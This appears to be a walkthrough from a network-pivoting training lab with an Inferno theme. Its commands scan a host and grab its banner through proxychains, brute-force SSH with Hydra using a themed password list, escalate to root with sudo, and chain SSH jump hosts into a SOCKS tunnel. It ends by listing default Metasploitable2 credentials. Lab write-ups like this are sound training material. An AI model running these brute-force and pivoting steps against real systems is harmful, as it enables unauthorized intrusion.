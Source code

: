 ##### nmap scan
```
sudo proxychains nmap -sT -Pn -n 6.6.6.6
```
![[Pasted image 20250605100613.png]]

##### Banner Grab 666
```
proxychains nc 6.6.6.6 666
```
![[Pasted image 20250605100659.png]]
##### make a password_list.txt for brute force
```
echo "disgusting\nhorror\ntorment\nbetrayal\nmalcontent\nmonstrous\nfaces\ntreacherous\ntraitor\nfrozen\npowerless\npunishmen\njuda\nbrutus\ncassius\nnine\ntreason" > password_list.txt
```

##### Bruteforce SSH login with Hydra
```
proxychains hydra -s 666 -t 4 -V -f -l satan -P password_list.txt ssh://6.6.6.6 
```
![[Pasted image 20250601121600.png]]

##### Login with SSH
```
proxychains ssh satan@6.6.6.6 -p 666
```
![[Pasted image 20250605101722.png]]

##### Test sudo privileges/gain root
```
sudo -l
sudo -i
```
![[Pasted image 20250605101930.png]]

##### Tunnel to Salvation
```
ssh -N -D 1080 -J virgil@192.168.1.200,cleopatra@172.1.98.15,cerberus@10.1.10.3,pluto@10.0.0.254,phlegyas@255.255.255.9,epicurus@9.9.9.8:1,minotaur@222.222.222.187,geryon@3.3.3.3 satan@6.6.6.6 -p 666
```

## Congratulations on making it to Salvation!
- Launch some exploits at which ever salvation VM is in your lab
- Never launch both VMs at the same time 
	- They have the same IP
- Satan has Metasploit installed.
	- Due to tunnel distance some exploits will fail going from kali through tunnel.
	- This is especially true for Win2k8 and eternalblue.

### Salvation (Ubuntu - Metasploitable2)
- 03_10-Salvation (LM2)
- msfadmin:msfadmin
- 72.69.76.2
